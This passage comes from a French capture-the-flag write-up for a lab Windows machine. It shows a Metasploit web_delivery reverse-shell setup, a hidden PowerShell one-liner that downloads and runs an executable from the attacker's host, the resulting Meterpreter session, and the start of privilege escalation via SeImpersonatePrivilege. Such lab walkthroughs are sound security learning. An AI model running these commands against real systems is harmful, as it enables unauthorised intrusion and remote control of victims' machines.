Parfait nous sommes prêt pour le reverse shell nous allons utiliser metasploit le module web_delivery pour effectué notre reverse shell avec sans aucun problème.

	msf > use exploit/multi/script/web_delivery
	msf exploit(multi/script/web_delivery) > set LHOST 10.10.15.229
	msf exploit(multi/script/web_delivery) > set LPORT 9001
	msf exploit(multi/script/web_delivery) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
	msf exploit(multi/script/web_delivery) > set TARGET 4
	
Donc le code fournis en powershell il faut le mettre depuis le site web et non depuis curl car il y a des problèmes d'encodage etc.. Donc je vous conseille vivement d'aller sur le chemin directement. Le code fourni par Metasploit.

	powershell.exe -nop -w hidden -c $z="echo ($env:temp+'\DF95KsPU.exe')"; (new-object System.Net.WebClient).DownloadFile('http://10.10.15.229:8080/mSErF4WvPeAoECb', $z); invoke-item $z
	
Après avoir exécuté le code powershell nous avons un shell, mais le problème nous sommes pas administrator.

	msf exploit(multi/script/web_delivery) > exploit
	[*] 10.10.10.116     web_delivery - Delivering Payload                                                
	[*] Sending stage (206403 bytes) to 10.10.10.116
	[*] Meterpreter session 1 opened (10.10.15.229:4444 -> 10.10.10.116:49675) at 2019-05-18 13:50:59 +0200

	meterpreter > shell
	Process 1564 created.
	Channel 1 created.
	Microsoft Windows [Version 10.0.15063]
	(c) 2017 Microsoft Corporation. All rights reserved.
	
	C:\Windows\SysWOW64\inetsrv> whoami
	conceal\destitute

PrivEsc
----
Le privesc n'est pas très compliqué sur la machine nous allons taper la commande ci-dessous. En exécutant whoami /priv, nous voyons que les droits de l'utilisateur nous permettront d'utiliser l'exploit RottenPotato pour s'élever à NTAUTORITY/SYSTEM. 
C:\Windows\SysWOW64\inetsrv>whoami /priv

	
	C:\Users\Windows\System32>whoami /priv

	PRIVILEGES INFORMATION
	----------------------

	Privilege Name                Description                               State   
	============================= ========================================= ========
	SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
	SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
	SeShutdownPrivilege           Shut down the system                      Disabled
	SeAuditPrivilege              Generate security audits                  Disabled
	SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
	SeUndockPrivilege             Remove computer from docking station      Disabled
	SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
	SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
	SeTimeZonePrivilege           Change the time zone                      Disabled
